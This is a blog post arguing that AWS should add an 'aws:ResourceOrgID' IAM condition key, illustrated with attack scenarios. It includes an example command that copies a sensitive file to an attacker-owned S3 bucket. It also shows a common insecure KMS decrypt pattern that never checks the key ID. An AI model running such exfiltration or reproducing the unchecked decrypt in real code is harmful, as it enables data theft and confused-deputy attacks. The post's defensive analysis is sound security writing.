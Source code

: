 ```yaml
---
layout: post
title:  AWS IAM needs aws:ResourceOrgID
date:   2020-09-29 12:12:52 +1000
categories: blog
---
```


## Background

In May 2018, AWS [released][aws-blog] a new IAM condition key, `aws:PrincipalOrgID`.
This was a game-changer for improving security posture as it made the dream of
extremely granular AWS accounts that much more achievable. I won't go into
detail on why it was so useful as I'm sure others have written much better
explanations than I could.

The existence of `aws:PrincipalOrgID` made writing some _resource_-based policies
much easier. In the same theme, a hypothetical `aws:ResourceOrgID` condition key
would be extremely useful for _identity_-based policies, service control policies
and VPC endpoint policies. I'm not alone in thinking this. For example, in
Square's [blog post][square-blog] on adoption of VPC endpoints they wrote this:

> There is a limit of 20,480 characters on VPC Endpoint Policies. While this may 
> suffice for most use-cases, at Square we currently have close to 200 AWS accounts 
> and are expected to add hundreds more AWS accounts as more teams build in the 
> cloud. We calculated that with our policy specification, we cannot list more 
> than approximately 800 AWS accounts. In order to monitor this we have a graph 
> of the VPC Endpoint Policy text sizes (in number of characters) and have an 
> alarm set if that reaches into the ten thousand characters.
>
> If AWS offers a `aws:ResourceOrgID` IAM conditional context key, similar to 
> the `aws:PrincipalOrgID` conditional context key, we would not have to manually 
> list AWS accounts in the resources section.

Additionally, this is a frequent topic of ~~complaining~~ discussion in the
Cloud Security Forum:

![screenshot](/assets/2020-09-29-cloudsecurityforum.png)

## Arguments for aws:ResourceOrgID

Something to keep in mind is that these scenarios may seem trivial to fix: it's
a matter of "duh, don't do that thing" and that is indeed often true of the
demographics that might read this blog. But there are large orgs that have
hundreds to thousands of developers of *significantly* differing levels of
AWS proficiency. That's where an SCP like the following can be exceedingly
useful:

```json
{
    "Effect": "Deny",
    "Action": "kms:Decrypt",
    "Condition": {
        "StringNotEquals": {
            "aws:ResourceOrgID": "o-my-org-id"
        }
    }
}
```

Scenario one: Imagine a scenario wherein an attacker has gained control of an 
EC2 instance with an IAM policy that has `s3:PutObject` permissions on `*` 
resources. The attacker could exfiltrate data to a bucket that they own by 
running `aws s3 cp sensitive-file s3://attacker-bucket/`. This usually should 
be prevented by being explicit about buckets that it has write access to. But
for argument's sake, it needs unbounded access. This could be made safer by
adding a condition that the instance role can only write to buckets owned by
the org.

Scenario two: An attacker can trivially circumvent the protection in scenario
one by using their own access key ID instead of the instance's to perform the 
file upload. This is where the condition key would be useful in a VPC endpoint:
any same-region traffic to S3 could be restricted to buckets owned by the org
by including an `aws:ResourceOrgID` condition key.

Scenario three: You are running a centrally-administered EKS/ECS cluster. Images
are stored in ECR repositories across the org. You want to prevent attackers from
specifying that an image hosted in an attacker-owned account should be run -
the condition key helps here too. Likewise with ECR VPC endpoint policies.

Scenario four: An attacker convinces your application to call `kms:Decrypt` on
an attacker-provided ciphertext that has been encrypted with a KMS CMK
owned by the attacker. The attacker's CMK has a key policy that grants `kms:Decrypt`
to `*` principals and your application has an IAM policy that grants `kms:Decrypt`
on `*` keys.

## The problem with KMS keys

I think scenario four warrants the most thought. In my (limited, anecdotal) 
experience AWS KMS is the service that suffers in terms of the ratio of
being poorly understood relative to how critical it is. There's also some
unfortunate gotchas in the user experience that make security issues more likely.

The first issue concerns the relationship between KMS key IDs, key aliases and
IAM principal policies. When you _use_ a KMS key, you're usually calling one
of the KMS APIs (like `Decrypt`, `Encrypt`, etc) with a key *alias*, e.g.:

```javascript
    kmsClient.encrypt({ 
        Plaintext = someSensitiveUserData, 
        KeyId = "alias/MyEncryptionKey" 
    })
```

This is a much more pleasant dev experience than passing in a key ID, which is
an opaque GUID. This is doubly the case if you are using multiple AWS regions
and/or multiple AWS accounts: it's very tempting to use the same alias in
each environment so you don't need to make your code configurable.

Where this experience falls down is in assigning permissions. The first thing
a developer will try is the following IAM policy statement:

```yaml
- Effect: Allow
  Action: [kms:Encrypt, kms:Decrypt]
  Resource: !Sub arn:aws:kms:${AWS::Region}:${AWS::AccountId}:alias/MyEncryptionKey
```

This will fail. The resource must be the **key ID**. So what are they going to 
do? They have a few lousy options:

* Make the key ID a template parameter. This now makes instantiating the template
  more annoying.
* Add all the key IDs to a `Mappings` section. This now makes the `Resource` field
  more effort _and_ uglier. You might call this petty, but would you say developers
  aren't petty?
* Change the statement to be `Resource: "*"`. And why wouldn't they? It's substantially
  easier, guaranteed to work and the attack scenarios aren't immediately apparent. 
  How insecure could it be when the key alias is hardcoded in the app?

The issue only arises when the app later calls `kms:Decrypt` if the ciphertext
is provided by the user. The issue is that an attacker can provide a ciphertext
encrypted with *their* key. `kms:Decrypt` supports an *optional* `KeyId` 
parameter, but 99% of the time I see the following usage:

```javascript
    const resp = await kmsClient.decrypt({ CiphertextBlob = someCiphertextString });
    const decrypted = resp.Plaintext;
    // some code that uses the decrypted value
```

This works because the key ID is encoded into the ciphertext blob returned by
`kms:Encrypt`. It's very handy because you don't need to record the key ID alongside
the encrypted data! And it's typically pretty secure, because if an attacker 
tries to modify the ciphertext, it becomes invalid and returns and error as
the cipher is authenticated. This in combination with the hardcoded encryption
key will lead most developers to feeling confident in the security of the system
as-is.

But that authentication **counts for nothing** if you don't validate that the 
`resp.KeyId` matches the `KeyId` that you passed to the `kms:Encrypt` API call.

I suspect that this problem is more likely to occur than you might first guess.
Think of scenarios like a Dropbox app, where the backend encrypts users' files
that are then stored on users' machines. The authenticated nature of the ciphertext
would lead most reasonable developers to believe the data is tamper-proof.

It's for this reason that I think an `aws:ResourceOrgID` condition key would be
extremely useful for AWS Organization SCPs: to deny the very uncommon scenario
of cross-org encryption/decryption. In the unlikely scenario that is part of
your workflow, it can always be narrowed down to not deny usage of cross-org
keys by suitably tagged IAM principals.

## What does AWS have to say about all this?

The [`kms:Decrypt`][docs] do actually have a bit to say on this, but it's not
spelled out as clearly as might be necessary for someone without sufficient
pre-existing background. The relevant excerpts:

> [s]pecifying the CMK is always recommended as a best practice. When you use 
> the KeyId parameter to specify a CMK, AWS KMS only uses the CMK you specify. 
> If the ciphertext was encrypted under a different CMK, the Decrypt operation 
> fails. This practice ensures that you use the CMK that you intend.
>
> Whenever possible, use key policies to give users permission to call the Decrypt 
> operation on a particular CMK, instead of using IAM policies. Otherwise, you
> might create an IAM user policy that gives the user Decrypt permission on all 
> CMKs. This user could decrypt ciphertext that was encrypted by CMKs in other 
> accounts if the key policy for the cross-account CMK permits it. If you 
> must use an IAM policy for Decrypt permissions, limit the user to particular 
> CMKs or particular trusted accounts. 
>
> [...]
> 
> `KeyId`
> [...] If you used a symmetric CMK, AWS KMS can get the CMK from metadata that 
> it adds to the symmetric ciphertext blob. However, it is always recommended 
> as a best practice. This practice ensures that you use the CMK that you intend.

## You're wrong

I probably am wrong. Or maybe I've misestimated the likelihood of something. Or
very likely: I've not considered another great reason why this would be a wonderful
new condition key. Please reach out to me on Twitter and share your thoughts.

[aws-blog]: https://aws.amazon.com/blogs/security/control-access-to-aws-resources-by-using-the-aws-organization-of-iam-principals/
[square-blog]: https://developer.squareup.com/blog/adopting-aws-vpc-endpoints-at-square/
[docs]: https://docs.aws.amazon.com/kms/latest/APIReference/API_Decrypt.html
